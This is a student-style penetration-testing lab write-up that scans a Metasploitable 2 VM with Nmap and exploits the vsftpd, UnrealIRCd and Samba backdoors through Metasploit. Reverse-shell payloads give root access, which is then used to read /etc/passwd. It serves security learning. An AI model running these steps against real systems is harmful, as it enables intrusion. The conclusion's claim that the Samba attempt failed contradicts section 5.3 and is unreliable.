






# Nmap Metasploitable 2 Vulnerability Assessment & Exploitation Lab

Author: Doh Kim
Date: 2025-11-29  
Targets:  
- Attacker: Kali Linux VM (10.10.30.101)  
- Victim: Metasploitable 2 VM (10.10.30.103)  

---

## 1. Overview
This project demonstrates a full penetration-testing workflow against an intentionally vulnerable machine (Metasploitable 2). The goal is to practice reconnaissance, vulnerability identification, exploitation, and documentation using industry tools such as Nmap and Metasploit.

---

## 2. Objectives
- Discover open ports and running services using Nmap  
- Identify exploitable services  
- Use Metasploit to gain remote access  
- Document exploitation steps and findings  
- Provide remediation steps for each vulnerability  

---

## 3. Tools Used
- Kali Linux
- Metasploitable 2
- Nmap 7.x
- Metasploit Framework

---

## 4. Reconnaissance and Scanning
 
### 4.1 Basic Service Discovery

A version scan was performed against the target to identify open ports and running services:

- Command:  
  - `nmap -sV 10.10.30.103`  

This revealed multiple services, including FTP, Samba, and IRC, which were later targeted for exploitation.

### 4.2 Baseline Scan with Output Saved

To preserve a record of the scan, the output was saved to a file:

- Command:  
  - `nmap -sV -oN ms2-baseline.txt 10.10.30.103`  

The file `ms2-baseline.txt` (stored in project directory) serves as a baseline of the target’s exposed services before exploitation.

---

## 5. Exploitation

Metasploit was used as the primary exploitation framework. Spool logging was enabled so all console output was saved under `./exploits/`, and screenshots of key steps were captured under `./screenshots/`.

### 5.1 FTP: vsftpd 2.3.4 Backdoor

- Module: `exploit/unix/ftp/vsftpd_234_backdoor`
- Goal: Exploit the malicious backdoor in vsftpd 2.3.4 to obtain a root shell.

Steps:

1. Enabled logging and loaded the module:
   - `spool ./exploits/vsftpd-exploit.txt`
   - `use exploit/unix/ftp/vsftpd_234_backdoor`
2. Set the target IP:
   - `set RHOSTS 10.10.30.103`
3. Ran the exploit:
   - `run`

Metasploit detected the FTP banner `vsFTPd 2.3.4`, triggered the backdoor, and opened a command shell session on port 6200. The session was reported as:

- `Command shell session 1 opened (10.10.30.101:39945 -> 10.10.30.103:6200)`

To verify impact, the following commands were executed in the shell:

- `id` → returned `uid=0(root) gid=0(root)`, proving immediate root access.  
- `uname -a` → identified the host as the Metasploitable 2 Linux kernel.  
- `ls` → listed top‑level directories such as `/bin`, `/etc`, `/root`, and others, confirming full filesystem access.

The session was then closed and logging stopped:

- `spool off`

Artifacts:

### 5.2 IRC: UnrealIRCd 3.2.8.1 Backdoor

- Module: `exploit/unix/irc/unreal_ircd_3281_backdoor`
- Goal: Exploit the known backdoor in UnrealIRCd to gain a remote root shell.

Steps:

1. Enabled logging and loaded the module:
   - `spool ./exploits/unrealircd-exploit.txt`
   - `use exploit/unix/irc/unreal_ircd_3281_backdoor`
2. Initial run without payload selection failed and produced “Exploit failed: A payload has not been selected”, so a compatible payload was selected:
   - `show peeayloads`
   - `set PAYLOAD cmd/unix/reverse`
3. Set listener IP and target:
   - `set LHOST 10.10.30.101`
   - `set RHOSTS 10.10.30.103`
4. Ran the exploit:
   - `run`

Metasploit connected to the IRC service on port 6667, sent the backdoor command, and opened a reverse command shell:

- `Command shell session 1 opened (10.10.30.101:4444 -> 10.10.30.103:58448)`

From inside this shell, basic commands were used to verify compromise:

- `whoami` → returned `root`.  
- `id` → showed `uid=0(root) gid=0(root)`.  
- `ls /home` → listed user home directories (`ftp`, `msfadmin`, `service`, `user`), confirming access to local accounts.

After verification, the session was terminated and logging stopped:

- `spool off`

Artifacts:

### 5.3 Samba: usermap_script

- Module: `exploit/multi/samba/usermap_script`
- Goal: Exploit the Samba usermap_script vulnerability to obtain a shell and read sensitive files.

Steps:

1. Enabled logging and loaded the module:
   - `spool ./exploits/samba-exploit.txt`
   - `use exploit/multi/samba/usermap_script`
2. First run used the default payload and incorrectly bound the listener to localhost:
   - `set RHOSTS 10.10.30.103`
   - `run`
   - Metasploit warned that `LHOST` was `127.0.0.1` and no session was created.
3. Corrected the payload and listener configuration:
   - `set PAYLOAD cmd/unix/reverse_netcat`
   - `set LHOST 10.10.30.101`
4. Ran the exploit again:
   - `run`

This second attempt successfully opened a remote shell:

- `Command shell session 1 opened (10.10.30.101:4444 -> 10.10.30.103:59638)`

Verification commands executed inside the shell:

- `id` → `uid=0(root) gid=0(root)` confirmed root‑level access.  
- `cat /etc/passwd` → displayed system accounts, demonstrating the ability to read sensitive configuration data.  
- `uname -a` → confirmed the target as the Metasploitable 2 Linux kernel.

The shell was closed and spooling stopped after evidence was collected:

- `spool off`

Artifacts:

---

## 6. Conclusion

This project demonstrated a full mini‑penetration test workflow:

- Building a lab with Kali Linux and Metasploitable 2 on the same network.  
- Performing initial reconnaissance with Nmap and saving results for later reference.  
- Using Metasploit to exploit known backdoors in vsftpd and UnrealIRCd to gain root shells.  
- Attempting additional exploitation via Samba and documenting the unsuccessful path.  
- Enumerating the file system and sensitive data to prove impact, and outlining practical remediation steps.

## Disclaimer
This lab was performed on my own isolated virtual environment. Never perform scanning or exploitation on systems you do not own or control.